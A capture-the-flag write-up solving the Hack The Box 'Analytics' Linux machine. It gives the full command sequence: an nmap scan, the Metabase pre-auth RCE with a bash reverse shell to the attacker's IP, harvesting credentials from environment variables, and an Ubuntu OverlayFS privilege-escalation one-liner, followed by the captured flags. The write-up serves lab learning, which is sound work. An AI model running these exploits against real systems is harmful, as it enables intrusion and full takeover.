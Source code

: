 # Analytics

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

First we scan open ports:

```sh
$ nmap -A -T4 -Pn 10.10.11.233
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 13:24 CET
Nmap scan report for 10.10.11.233
Host is up (0.035s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.72 seconds
```

Let's add `analytical.htb` to `/etc/hosts`:

```sh
$ echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

And open it in browser:

![start](./start.jpg)

When we click on login, we are redirected to `data.analytical.htb`, so we also need to add it to `/etc/hosts`:

```sh
$ echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts
```

Now we can open login page:

![login](./login.jpg)

We can find [CVE-2023–38646 Metabase Pre-Auth vulnerability](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396). Let's exploit it, using [this](https://github.com/m3m0o/metabase-pre-auth-rce-poc) script.

Firstly we need to open `http://data.analytical.htb/api/session/properties` and find `setup-token`:

![token](./token.jpg)

Next, we can set up netcat listener and execute the script in other window:

```sh
$ nc -l 9001
```

```sh
$ python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.92/9001 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

And we got the reverse shell: 

```sh
$ nc -l 9001
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d5f6b76e6408:/$
```

We can check environment variables:

```sh
$ env
...
META_USER=metalytics
META_PASS=An4lytics_ds20223#
...
```

Let's try to connect with `ssh` with those credentials:

```sh
$ ssh metalytics@10.10.11.233
...
metalytics@analytics:~$
```

And we are in! Let's see `user` flag:

```sh
metalytics@analytics:~$ cat user.txt
5a9184aafb368e99991a74928d2edc5c
```

Now we need to escalate our priveleges to `root`. Let's check the kernel version, because `sudo -l` didn't worked:

```sh
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

We can find following vulnerability: [Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). So we can try to execute the command:

```sh
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

It works! Let`s read `root.txt`:

```sh
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
c7ce51fda5ac239fdf691e238fcfecdf
```

## Final Flags

> `user`: 5a9184aafb368e99991a74928d2edc5c
> `root`: c7ce51fda5ac239fdf691e238fcfecdf

*Created by [bu19akov](https://github.com/bu19akov)*